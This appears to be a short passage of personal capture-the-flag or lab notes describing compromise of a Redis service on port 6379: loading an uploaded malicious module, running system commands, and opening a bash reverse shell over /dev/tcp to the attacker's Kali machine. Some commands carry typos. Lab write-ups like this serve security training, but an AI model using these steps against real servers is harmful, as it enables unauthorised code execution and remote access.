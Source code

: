 ![](Images/Pasted%20image%2020221110001600.png)

#AnonymousFTPdirectorylocation

# Port 6379  - Redis

#### -Typed "redis-cli -h [target IP]" to connect to Redis

#### -Typed "MODEL LOAD "/var/ftp/pub/module.so" "
![](Images/Pasted%20image%2020221110134835.png)

#### -Typed "sytem.exec "id" " and found username "pablo"
![](Images/Pasted%20image%2020221110134928.png)

#### -I then typed " system exec "/bin/bash -i >& /dev/tcp/[kali IP]:6379 0>&1". Then started a penelope listener on my kali machine and received a reverse shell:

![](Images/Pasted%20image%2020221110135022.png)

